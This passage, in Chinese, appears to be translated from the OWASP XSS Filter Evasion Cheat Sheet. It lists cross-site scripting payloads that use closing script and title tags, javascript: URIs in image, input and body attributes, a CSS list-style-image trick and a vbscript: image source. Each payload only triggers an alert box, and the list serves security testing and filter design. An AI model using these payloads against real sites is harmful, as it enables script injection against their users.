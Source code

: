另一种方法是，如果对嵌入数据应用了正确的 JSON 或 JavaScript 转义而不是 HTML 编码，则完成脚本块并开始您自己的：

```
</script><script>alert('XSS');</script>
```

### 结束标题标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#end-title-tag)

这是一个简单的关闭`<TITLE>`标签的 XSS 向量，可以封装恶意跨站脚本攻击：

```
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

### 输入图像[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#input-image)

```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

### 身体形象[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#body-image)

```
<BODY BACKGROUND="javascript:alert('XSS')">
```

### IMG动态[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-dynsrc)

```
<IMG DYNSRC="javascript:alert('XSS')">
```

### IMG Lowsrc[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-lowsrc)

```
<IMG LOWSRC="javascript:alert('XSS')">
```

### 列表样式图像[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#list-style-image)

处理项目符号列表的嵌入图像的相当深奥的问题。由于 JavaScript 指令，这仅适用于 IE 渲染引擎。不是一个特别有用的跨站点脚本向量：

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

### 图像中的 VBscript[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#vbscript-in-an-image)

```
<IMG SRC='vbscript:msgbox("XSS")'>
```
